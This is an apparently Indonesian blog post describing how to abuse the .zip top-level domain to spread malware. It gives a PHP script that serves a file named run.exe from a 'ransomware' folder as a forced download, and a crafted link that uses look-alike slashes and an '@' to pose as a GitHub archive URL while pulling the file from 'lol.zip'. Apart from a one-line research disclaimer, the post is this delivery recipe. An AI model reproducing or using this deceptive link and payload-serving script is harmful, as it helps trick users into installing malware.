 ```yaml
---

layout: post

title: "Exploit Google’s .zip TLD Untuk Menyebarkan Virus dan Malware"

date: 2023-05-18 14:11:00 +0700

category: blogs

---
```

# Exploit Google’s .zip TLD Untuk Menyebarkan Virus dan Malware

Selamat datang! 
Pertama, saya akan membahas tentang domain .zip. Domain .zip adalah salah satu ekstensi domain dari Google Domains.

### Risk
Untuk menggunakan domain ini hanya menggunakan cara URL Format Bypass dengan seolah olah ini adalah URL yang valid.

Misal saya mempunyai sebuah virus yang berakhiran `.exe` saya akan membuat sebuah script PHP atau Python dengan sebagai contoh script :

```php
<?php
if(isset($_GET['true']))
{
$exe = "run.exe";
$dir = "ransomware/";
$file = $dir . $exe;

if (file_exists($file))
    {
    header('Content-Description: File Transfer');
    header('Content-Type: application/octet-stream');
    header('Content-Disposition: attachment; filename='.basename($file));
    header('Expires: 0');
    header('Cache-Control: must-revalidate');
    header('Pragma: public');
    header('Content-Length: ' . filesize($file));
    ob_clean();
    flush();
    readfile($file);
    exit;
    }
}
?>
```
dan saya deploy misal di domain `lol.zip`.

lalu pada URL saya memakai URL dari Github.com

Contoh:

`https://github.com∕kubernetes∕kubernetes∕archive∕refs∕tags∕@lol.zip`

dan hasil nya akan langsung mendownload file yang saya sudah siapkan di server pada domain `lol.zip`.

### Penutup

Untuk kali ini saya tidak merekomendasikan menggunakan cara ini untuk kejahatan dan lain nya.

Karena ini hanya untuk research dan pembelajaran.


Terima Kasih.
